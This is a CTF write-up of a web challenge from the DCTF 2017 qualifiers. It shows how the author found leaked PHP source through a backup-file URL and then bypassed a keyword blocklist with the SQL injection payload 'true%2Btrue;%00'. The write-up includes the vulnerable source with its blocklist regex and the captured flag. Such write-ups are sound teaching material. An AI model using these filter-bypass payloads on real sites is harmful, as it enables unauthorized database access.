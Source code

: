 ```yaml
---
title: Are you brave enough?
category: d_ctf
author_member: pyth0n33
show_comments: false
---
```

# Are you brave enough? (Web)
The goal of this challenge was to exploit an SQL injection with various filters.

## Challenge description
```text
You have a simple challenge, proove your web skills and get the flag.
```

## Solution
When openin the site there was only the word Nop. on the site. Looking at the source revealed only this:
```html
<h3>Nop.</h3>
```
I quickly tried to open https://brave.dctf-quals-17.def.camp/index.php and then I was sure that this was the file the server displayd when opening the URL. I tried different URLs like index.php.bak and index.php.old to find the source code of the file.
Eventually I got the source with https://brave.dctf-quals-17.def.camp/index.php~ 
```php
<?php

$db  = mysqli_connect('localhost','web_brave','','web_brave');

$id  = @$_GET['id'];
$key = $db->real_escape_string(@$_GET['key']);

if(preg_match('/\s|[\(\)\'"\/\\=&\|1-9]|#|\/\*|into|file|case|group|order|having|limit|and|or|not|null|union|select|from|where|--/i', $id))
    die('Attack Detected. Try harder: '. $_SERVER['REMOTE_ADDR']); // attack detected

$query = "SELECT `id`,`name`,`key` FROM `users` WHERE `id` = $id AND `key` = '".$key."'";
$q = $db->query($query);

if($q->num_rows) {
    echo '<h3>Users:</h3><ul>';
    while($row = $q->fetch_array()) {
        echo '<li>'.$row['name'].'</li>';
    }

    echo '</ul>';
} else {    
    die('<h3>Nop.</h3>');
}
```
This code makes pretty clear what the goal of this challenge is: get database information with an SQL injection. As the key parameter is filtered we have to use the id parameter.
What makes the exploit harder is the filter. There are many characters and words that are not allowed.
Because we can't use select statements we have to get rid of the statement after $id. Normally I would use a SQL command for this. But -- and /* characters are filtered.
The second problem is that we can't use numbers for the id parameter, because numbers are filtered too.
Finally I was able to solve the challenge with this SQL injection:
```
true%2Btrue;%00

https://brave.dctf-quals-17.def.camp/index.php?id=true%2Btrue;%00
```
%2B is the url encoded + that we use because the plus sign is filtered. True + True is equal to two in SQL. So with this we can inject numbers. %00 is the null byte character.
Older PHP versions are vulnerable to null byte injection that means they stop reading a string after a null byte appears.

```
DCTF{602dcfeedd3aae23f05cf93d121907ec925bd70c50d78ac839ad48c0a93cfc54}
```
